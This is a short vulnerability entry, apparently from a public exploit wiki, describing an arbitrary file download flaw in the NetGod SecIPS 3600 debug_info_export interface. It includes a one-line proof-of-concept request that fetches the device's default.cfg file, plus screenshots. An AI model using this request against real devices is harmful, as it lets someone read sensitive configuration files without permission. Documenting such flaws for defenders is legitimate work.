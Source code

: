 # NetGod SecIPS 3600 debug_info_export Any file download vulnerability

## Vulnerability Description

NetSecIPS 3600 debug_info_export interface has arbitrary file download vulnerability, and attackers can obtain server sensitive files through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Net God SecIPS 3600 </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639641366514-eff0967c-0e03-479e-b9d3-81ba2f07eacb.png)

Verify POC

```go
/webui/debug/debug_info_export?filename=default.cfg
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639641390577-fec79e9b-2981-4807-a0fd-1bd6f7986a44.png)